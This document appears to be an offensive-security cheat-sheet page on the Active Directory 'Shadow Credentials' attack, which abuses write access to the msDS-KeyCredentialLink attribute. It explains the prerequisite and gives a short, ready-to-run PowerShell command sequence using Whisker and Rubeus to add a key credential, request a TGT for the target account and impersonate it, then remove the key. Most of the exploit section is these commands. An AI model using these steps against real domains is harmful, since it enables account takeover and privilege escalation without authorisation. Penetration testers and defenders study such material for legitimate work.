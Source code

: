 # Shadow Credentials
---

## Vulnerability

If you have permissions to write on `msDS-KeyCredentialLink` of a domain user or computer, you can modify it to obtain a TGT for it and therefore, impersonate it.

## Prerequisites

* Write permission on `msDS-KeyCredentialLink` attribute of a domain user or computer.

## Exploit

For the following exploit, in the case the target is a computer, **don't forget** to add the `$` at the end of the `samAccountName`.

```powershell
# Get keys of the target.
.\Whisker.exe list /target$samAccountName

# Add a new pair of keys to the target.
.\Whisker.exe add /target:$samAccountName

# Request a TGT with the certificate and password generated with Whisker.
Rubeus.exe asktgt /user:$samAccountName /certificate:$certificate /password:$password /nowrap

# Remove the key you added.
.\Whisker.exe remove /target:$samAccountName /deviceid:$deviceId
```

## Useful links

* [Elad Sharmir's](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) article about shadow credentials.